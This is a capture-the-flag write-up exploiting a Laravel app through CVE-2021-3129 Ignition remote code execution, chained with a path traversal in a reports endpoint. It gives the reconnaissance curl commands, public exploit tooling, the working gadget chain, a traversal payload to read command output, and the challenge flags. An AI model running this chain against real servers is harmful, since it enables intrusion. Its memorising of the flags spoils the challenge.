

# 9 - Debug Legacy

## Challenge

<p align="center">
  
</p>

## Solution

### 1. Inspect the Source Code

The challenge provides the application's source code. Instead of immediately scanning the website, we should first inspect the files to understand how the application works.

The important files are:

- `routes/web.php` – Contains the application's routes and endpoints.
- `config/app.php` – Contains application settings.
- `.env.example` – Shows the environment variables.
- `composer.json` – Lists the installed libraries and their versions.

While inspecting these files, we discover that the application uses:

- Laravel 8
- PHP 7.4
- `facade/ignition` 2.x
- `APP_DEBUG=true`

The `APP_DEBUG=true` setting is especially important because debug mode should not be enabled on a production server.

### 2. Find the Intended Vulnerability

The challenge mentions an issue identified as `OBS-02` in the Q3 audit report.

We can find the report through the `/reports` endpoint:

```bash
curl -s 'https://petronas-gcsm2026-gebeng-ops-portal.chals.io/reports?file=q3-2026-safety.txt'
```

The report contains the following observation:

```text
OBS-02: LabTrack LIMS running in debug mode (APP_DEBUG=true) on the production server.
```

This confirms that the application is running with debug mode enabled.

Since the application uses Laravel and the vulnerable Ignition package, we can investigate **CVE-2021-3129**, a vulnerability that allows Remote Code Execution (RCE) through Laravel Ignition.

RCE means we can execute commands on the target server.

### 3. Confirm Laravel Ignition Is Enabled

Before exploiting the vulnerability, we check whether the Ignition endpoint is available:

```bash
curl -s -o /dev/null -w "%{http_code}\n" \
'https://petronas-gcsm2026-gebeng-ops-portal.chals.io/_ignition/health-check'
```

The server responds with:

```text
200
```

This tells us that the Ignition health-check endpoint is accessible.

We can also inspect the error response from the execute-solution endpoint:

```bash
curl -s -i \
'https://petronas-gcsm2026-gebeng-ops-portal.chals.io/_ignition/execute-solution'
```

The response reveals useful information, including the application directory:

```text
/var/www/html
```

We now have enough information to investigate the Ignition vulnerability.

### 4. Prepare the Exploitation Tools

We use two existing tools:

- **PHPGGC** – Generates PHP serialized payloads.
- **Laravel Exploits** – Provides an exploit script for the Laravel Ignition vulnerability.

Clone both repositories:

```bash
git clone --depth 1 https://github.com/ambionics/phpggc.git /tmp/phpggc

git clone --depth 1 https://github.com/ambionics/laravel-exploits.git /tmp/laravel-exploits
```

These tools help generate and deliver the payload needed to exploit CVE-2021-3129.

### 5. Test for Remote Code Execution

Before attempting to retrieve the flag, we first check whether we can execute commands on the server.

The exploit uses a PHP gadget chain. Different chains may work depending on the libraries installed by the application.

After testing several chains, `laravel/rce12` successfully works against the target.

We use a simple command to check the server's identity:

```bash
id > /var/www/html/storage/logs/x.txt
```

The command writes its output into a file instead of displaying it directly.

This is necessary because the Ignition error response does not show the command's output.

### 6. Retrieve the Command Output

The application also has a path traversal vulnerability in its `/reports` endpoint.

Path traversal happens when an application allows users to access files outside the intended directory.

We can use this vulnerability to read the file created by our command:

```bash
curl -s 'https://petronas-gcsm2026-gebeng-ops-portal.chals.io/reports?file=../logs/x.txt'
```

The response shows:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that our command executed successfully.

We now have two useful vulnerabilities working together:

- Laravel Ignition RCE allows us to execute commands.
- Path traversal allows us to read the output of those commands.

### 7. Search for the Real Flag

Instead of guessing where the flag is stored, we can use our command execution access to search for flag patterns.

Run the following command through the exploit:

```bash
grep -rIho "PETRONAS{[^}]*}" /var/www/html /tmp /opt /srv /home /root
```

Redirect the output into a file:

```bash
grep -rIho "PETRONAS{[^}]*}" /var/www/html /tmp /opt /srv /home /root \
> /var/www/html/storage/logs/f.txt 2>&1
```

Then retrieve the results using the path traversal vulnerability:

```bash
curl -s 'https://petronas-gcsm2026-gebeng-ops-portal.chals.io/reports?file=../logs/f.txt'
```

The search returns three flags:

```text
PETRONAS{1gn1t10n_burn5_th3_r3f1n3ry_d0wn}
PETRONAS{tr4v3rs4l_thr0ugh_th3_p1p3l1n3}
PETRONAS{xxe_p4rs3r_l34ks_r3f1n3ry_s3cr3ts}
```

### 8. Identify the Correct Flag

Not every flag discovered in a CTF challenge is necessarily the correct answer.

We need to compare the flags with the original challenge description.

The challenge specifically points us towards `OBS-02`, which describes the application running in debug mode.

The three flags are related to different vulnerabilities:

- `xxe_p4rs3r` – Refers to XML External Entity (XXE).
- `tr4v3rs4l` – Refers to path traversal.
- `1gn1t10n` – Refers to Laravel Ignition.

Since the intended vulnerability is the Laravel Ignition issue, the correct flag is:

## Flag

```text
PETRONAS{1gn1t10n_burn5_th3_r3f1n3ry_d0wn}
```

## What We Learned

- **Source Code Review:** Reading the provided source code can reveal important vulnerabilities before testing the application.
- **Debug Mode Misconfiguration:** Debug mode should never be enabled on a production server.
- **CVE-2021-3129:** Vulnerable Laravel Ignition versions can allow Remote Code Execution.
- **Remote Code Execution:** RCE allows an attacker to execute commands on a remote server.
- **Path Traversal:** Improper file path validation can allow access to files outside the intended directory.
- **Vulnerability Chaining:** Combining multiple vulnerabilities can help achieve an objective that one vulnerability alone cannot accomplish.